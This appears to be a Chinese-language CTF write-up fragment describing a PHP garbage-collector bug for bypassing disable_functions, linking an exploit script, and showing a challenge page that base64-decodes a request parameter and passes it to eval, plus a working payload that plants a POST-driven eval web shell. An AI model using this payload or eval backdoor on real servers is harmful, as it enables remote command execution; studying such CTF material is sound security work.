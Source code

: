 原理简述：

此漏洞利用PHP垃圾收集器中存在三年的一个 [bug](https://bugs.php.net/bug.php?id=72530)，通过PHP垃圾收集器中堆溢出来绕过`disable_functions`并执行系统命令。

利用脚本：https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass

**利用方法：**

源码

```php
<title>Check_In</title>
<?php 
highlight_file(__FILE__);
class ClassName
{
        public $code = null;
        public $decode = null;
        function __construct()
        {
                $this->code = @$this->x()['Ginkgo'];
                $this->decode = @base64_decode( $this->code );
                @Eval($this->decode);
        }

        public function x()
        {
                return $_REQUEST;
        }
}
new ClassName();
```

构造如下拿到shell：

```php
/?Ginkgo=ZXZhbCgkX1BPU1Rbd2hvYW1pXSk7   
#eval($_POST[whoami]); 
```

![image-20211126232729094](image/命令执行/image-20211126232729094.png)
